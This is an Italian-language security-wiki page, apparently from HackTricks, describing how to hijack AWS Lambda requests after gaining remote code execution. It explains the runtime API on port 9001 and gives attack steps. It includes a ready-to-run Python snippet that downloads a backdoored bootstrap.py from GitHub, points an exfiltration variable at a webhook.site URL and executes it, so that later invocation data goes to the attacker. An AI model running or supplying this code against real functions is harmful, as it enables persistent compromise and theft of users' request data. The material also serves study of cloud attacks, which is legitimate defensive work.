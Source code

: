 # AWS - Rubare le Richieste Lambda

{{#include ../../../../banners/hacktricks-training.md}}

## Flusso Lambda

<figure><img src="../../../../images/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** è un processo esterno al contenitore che **invia** **invocazioni** al processo **init**.
2. Il processo init ascolta sulla porta **9001** esponendo alcuni endpoint interessanti:
- **`/2018-06-01/runtime/invocation/next`** – ottieni il prossimo evento di invocazione
- **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – restituisci la risposta del gestore per l'invocazione
- **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – restituisci un errore di esecuzione
3. **bootstrap.py** ha un ciclo che ottiene le invocazioni dal processo init e chiama il codice dell'utente per gestirle (**`/next`**).
4. Infine, **bootstrap.py** invia al init la **risposta**

Nota che bootstrap carica il codice dell'utente come un modulo, quindi qualsiasi esecuzione di codice effettuata dal codice dell'utente avviene effettivamente in questo processo.

## Rubare le Richieste Lambda

L'obiettivo di questo attacco è far eseguire al codice dell'utente un processo **`bootstrap.py`** malevolo all'interno del processo **`bootstrap.py`** che gestisce la richiesta vulnerabile. In questo modo, il processo **bootstrap malevolo** inizierà a **comunicare con il processo init** per gestire le richieste mentre il bootstrap **legittimo** è **intrappolato** a eseguire quello malevolo, quindi non chiederà richieste al processo init.

Questo è un compito semplice da raggiungere poiché il codice dell'utente viene eseguito dal legittimo processo **`bootstrap.py`**. Quindi l'attaccante potrebbe:

- **Inviare un risultato falso dell'invocazione corrente al processo init**, in modo che init pensi che il processo bootstrap stia aspettando ulteriori invocazioni.
- Deve essere inviata una richiesta a **`/${invoke-id}/response`**
- L'invoke-id può essere ottenuto dallo stack del legittimo processo **`bootstrap.py`** utilizzando il modulo python [**inspect**](https://docs.python.org/3/library/inspect.html) (come [proposto qui](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch_runtime.py)) o semplicemente richiedendolo di nuovo a **`/2018-06-01/runtime/invocation/next`** (come [proposto qui](https://github.com/Djkusik/serverless_persistency_poc/blob/master/gcp/exploit_files/switcher.py)).
- Eseguire un **`boostrap.py`** malevolo che gestirà le prossime invocazioni
- Per motivi di furtività, è possibile inviare i parametri delle invocazioni lambda a un C2 controllato dall'attaccante e poi gestire le richieste come al solito.
- Per questo attacco, è sufficiente ottenere il codice originale di **`bootstrap.py`** dal sistema o da [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), aggiungere il codice malevolo ed eseguirlo dall'attuale invocazione lambda.

### Passi dell'Attacco

1. Trovare una vulnerabilità **RCE**.
2. Generare un **bootstrap** **malevolo** (ad es. [https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py))
3. **Eseguire** il bootstrap malevolo.

Puoi facilmente eseguire queste azioni eseguendo:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Per ulteriori informazioni controlla [https://github.com/carlospolop/lambda_bootstrap_switcher](https://github.com/carlospolop/lambda_bootstrap_switcher)

## Riferimenti

- [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{{#include ../../../../banners/hacktricks-training.md}}
